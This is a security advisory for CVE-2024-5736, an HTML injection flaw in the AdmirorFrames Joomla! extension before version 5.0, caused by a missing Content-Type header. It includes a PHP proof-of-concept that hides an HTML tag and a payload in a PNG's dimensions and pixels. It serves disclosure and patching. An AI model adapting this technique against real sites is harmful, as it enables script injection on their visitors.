 # CVE-2024-5736
AdmirorFrames Joomla! Extension < 5.0 - HTML Injection

## Timeline
- Vulnerability reported to vendor: 26.01.2024
- New fixed 5.0 version released: 06.06.2024
- Public disclosure: 28.06.2024

## Description

HTML Injection in AdmirorFrames Joomla! Extension in `afGdStream.php` file which doesn't set up `Content-Type` header value before sending image data. This causes PHP to send default value of this header (`text/html`) and causes image data to be interptreted as HTML documente.  

Example PHP script that generates PNG with width and height fields set to `<s>` HTML tag:
```
<?php
$_payload="AAA";
if(strlen($_payload)%3!=0){
 echo "payload%3==0 !\n"; exit();
}
$_pay_len=strlen($_payload);
echo "LEN: $_pay_len\n";
$width=0x733e; //<s>
$height=0x3c;
$im = imagecreate($width, $height);

$_hex=unpack('H*',$_payload);
$_chunks=str_split($_hex[1], 6);

for($i=0; $i < count($_chunks); $i++){

  $_color_chunks=str_split($_chunks[$i], 2);
  $color=imagecolorallocate($im,hexdec($_color_chunks[0]),hexdec($_color_chunks[1]),hexdec($_color_chunks[2]));

  imagesetpixel($im,$i,1,$color);

}

imagepng($im,"example.png");
```

Result of rendering `example.png` proof of concept file by web browser:
![proof of concept]poc.png()

This issue was caused by usage of default value of `Content-Type` header. This problem has been fixed in AdmirorFrames Joomla! Extension at version 5.0.

## Affected versions
< 5.0 

## Advisory
Update AdmirorFrames Joomla! Extension to version 5.0 or newer.

### References
* https://github.com/vasiljevski/admirorframes/issues/3
* https://cert.pl/en/posts/2024/06/CVE-2024-5735/
* https://cert.pl/posts/2024/06/CVE-2024-5735/
* https://nvd.nist.gov/vuln/detail/CVE-2024-5737
